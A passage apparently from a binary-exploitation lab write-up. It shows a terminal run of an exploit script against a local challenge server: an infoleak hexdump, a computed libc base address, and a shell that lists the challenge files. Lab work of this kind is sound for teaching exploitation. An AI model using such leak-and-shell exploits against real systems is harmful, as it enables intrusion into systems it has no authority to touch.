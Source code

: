 
## Lets try it 

```
~/challenges/challenge17$ python3 exp-challenge17.py --offset 1048
Dont forget to start the server in the background
[+] Opening connection to localhost on port 5001: Done
--[ Send exploit
Infoleak:
00000000  00 00 00 00  00 00 00 00  d0 b2 4c 25  fc 7f 00 00  │····│····│··L%│····│
00000010  35 14 40 00  00 00 00 00  c8 b3 4c 25  fc 7f 00 00  │5·@·│····│··L%│····│
00000020  95 14 40 00  01 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
00000030  00 00 00 00  10 00 00 00  02 00 ec 80  7f 00 00 01  │····│····│····│····│
00000040  00 00 00 00  00 00 00 00  00 00 00 00  04 00 00 00  │····│····│····│····│
00000050  03 00 00 00  89 13 00 00  50 14 40 00  00 00 00 00  │····│····│P·@·│····│
00000060  0a dd c9 29  04 7f 00 00  c8 b3 4c 25  fc 7f 00 00  │···)│····│··L%│····│
00000070  19 b6 4c 25  01 00 00 00  7f 13 40 00  00 00 00 00  │··L%│····│··@·│····│
00000080
LIBC Ptr : 0x7f0429c9dd0a
LIBC Base: 0x7f0429c77000
Send Data: 
[*] Switching to interactive mode
Data: $ ls
Makefile
challenge17
challenge17.c
execve.c
exp-challenge17.py
print-gadgets.py
```


